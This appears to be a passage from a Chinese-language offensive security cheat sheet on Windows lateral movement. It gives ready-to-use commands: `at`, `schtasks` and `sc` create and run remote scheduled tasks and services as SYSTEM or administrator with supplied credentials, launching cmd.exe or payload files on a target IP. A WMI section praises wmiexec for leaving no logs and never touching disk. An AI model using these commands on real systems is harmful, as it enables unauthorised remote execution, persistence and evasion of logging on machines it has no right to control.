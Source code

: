 ```bash
net time

at \\127.0.0.1 23:00 c:\winnt\system32/viliosn.exe

at \\127.0.0.1 1 delete /yes #删除本机1号任务
```

#### schtasks(用户权限和系统权限都可以)

```dos
schtasks /create /tn asp_net /tr "c:\windows\system32\cmd.exe /c cmd" /sc once /st 00:00 /S ip /RU System /u user /p password

schtasks /run /tn asp_net /S ip /u user /p password

schtasks /F /delete /tn asp_net /S ip /u user /p password
```


#### sc

##### 系统权限的sc用法

利用服务工具，指定**用户权限启动**

在`192.130.16.22`上创建一个xxoox的服务，程序执行命令为`cmd.exe /c start c:\programdata\a+.bat`

```
sc \\192.130.16.22 create xxoox binPath= "cmd.exe /c start c:\programdata\a+.bat"
```

执行xxoox的服务，执行成功可能会提示错误1053，不宜作为启动项，一般用用户权限也是临时的：

```
sc \\192.130.16.22 start xxoox

sc \\192.130.16.22 delete xxoox
```

##### 指定用户权限启动的用法

在`192.130.16.22`上指定`administrator`账户创建一个`adminsec`服务：

```
sc \\192.130.16.22 create adminsec binpath = “c:\pass.exe” obj= “adminsec\administrator” passwrod= adminsec

sc \\192.130.16.22 start adminsec
```

#### wmic

WMI 的全称是 Windows Management Instrumentation，它出现在所有的 Windows 操作系统中，由一组强大的工具集合组成，用于1. 管理本地或远程的 Windows 系统。当攻击者使用wmiexec来进行攻击时，Windows系统默认不会在日志中记录这些操作，这意味着可以做到攻击无日志，同时攻击脚本无需写入到磁盘，具有极高的隐蔽性。越来越多的APT事件中也出现了WMI攻击的影子，利用WMI可以进行信息收集、探测、反病毒、虚拟机检测、命令执行、权限持久化等操作。(奇淫技巧可见[wmi shell](http://2014.hackitoergosum.org/slides/day1_WMI_Shell_Andrei_Dumitrescu.pdf))
